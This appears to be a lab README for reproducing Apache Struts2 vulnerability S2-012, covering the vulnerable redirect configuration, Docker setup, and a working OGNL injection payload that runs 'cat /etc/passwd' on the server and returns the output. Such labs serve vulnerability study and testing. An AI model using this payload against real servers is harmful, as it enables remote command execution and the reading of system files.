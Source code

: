 # S2-012 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.13

Details: http://struts.apache.org/docs/s2-012.html

## Reference

If the redirect type is used when configuring `result` in the `action`, and ${param_name} is also used as the redirect variable, for example:

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

During the redirection process, struts2 performs an OGNL expression parsing on the value of the `name` parameter, so that OGNL expression can be inserted to cause the command execution.

## Setup

```
docker-compose build
docker-compose up -d
```

## Exploit

We can use s2-001's POC directly:

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

Result：

![](1.png)
